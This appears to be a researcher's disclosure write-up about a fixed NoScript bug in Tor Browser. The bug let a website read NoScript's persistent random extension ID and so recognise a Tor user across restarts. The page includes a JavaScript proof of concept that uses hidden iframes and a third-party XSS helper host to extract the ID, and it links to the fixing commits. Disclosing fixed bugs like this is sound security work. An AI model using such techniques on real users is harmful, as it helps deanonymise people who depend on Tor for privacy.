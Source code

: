 ```yaml
---
title: Identify Tor user across browser restarts (Fixed)
---
```


"Tor Browser aims to make all users look the same, making it difficult for you to be fingerprinted based on your browser and device information."

NoScript is installed by default and cant be removed.
Other browser extensions are discouraged since there normally fingerprintable <https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/41581#note_2949932>

On the first install of the Tor browser, NoScripts gets assigned a random extension ID that never changes. Because of this firefox bug: <https://bugzilla.mozilla.org/show_bug.cgi?id=1372288>

This is different to the chromium way of using a universal extension ID for manifest v2 which while did allow detecting if an extension was installed there was no random extension/user ID generated.
Manifest v3 does have a `use_dynamic_url` feature that claims to be "per session and regenerated on browser restart or extension reload"

If the user increases there browser security level to "Safer" or in the NoScript settings page disables the media toggle this ID would be shared to an attacker controlled website using the following PoC:

```js
// Just a blank video
f = document.createElement('iframe')
f.hidden = true;
f.src = 'https://terjanq.me/xss.php?ct=video/mp4';
document.body.appendChild(f);

payload = `
let x = setInterval(() => {
 try {
  parent[0].document.links[0].style.opacity = 1;
  let link = parent[0].document.head.getElementsByTagName('link')[0];
  if (link && link.href) {
   let origin = new URL(link.href).hostname;
   alert('User ID: ' + origin);
   clearInterval(x);
  }
 } catch {}
}, 10);
`

setTimeout(() => {
    f2 = document.createElement('iframe');
    f2.hidden = true;
    // runs code same-origin as video
    f2.src = 'https://terjanq.me/xss.php?js=' + encodeURIComponent(payload);
    document.body.appendChild(f2);
}, 100);
```

This leak can be found at: <https://github.com/hackademix/nscl/blob/ef1ecbea27e39e255d988a8fb0233ab53c46e57c/content/PlaceHolder.js#L34>

It was fixed in version 11.4.28 by calling `tabs.insertCSS` instead of referencing the css file with `runtime.getURL`

NoScript: <https://github.com/hackademix/noscript/commit/1754429ea1bc458f802c4e4f49f8e8e4ab15f403>  
NSCL: <https://github.com/hackademix/nscl/commit/4c94bf24f117277f5c00878005d91d0d7aaa18e4>
![Tor](https://ndevtk.github.io/writeups/tor.png)
